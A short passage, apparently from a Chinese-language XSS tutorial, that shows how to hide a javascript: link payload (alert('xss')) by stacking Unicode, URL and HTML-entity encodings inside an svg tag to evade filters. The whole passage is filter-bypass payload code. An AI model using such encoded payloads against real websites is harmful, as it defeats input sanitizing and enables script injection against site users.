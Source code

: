 ##### 混合编码

```html
<a href=javascript:alert("xss")>test</a>
首先对“alert”进行JavaScript Unicode编码：
<a href=javascript:\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
然后再对 \u0061\u006c\u0065\u0072\u0074 进行URL编码：
<a href=javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34("xss")>test</a>
最后对标签中的 javascript:%5c%75...%37%34("xss") 整体进行HTML编码即可：
 <svg><a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

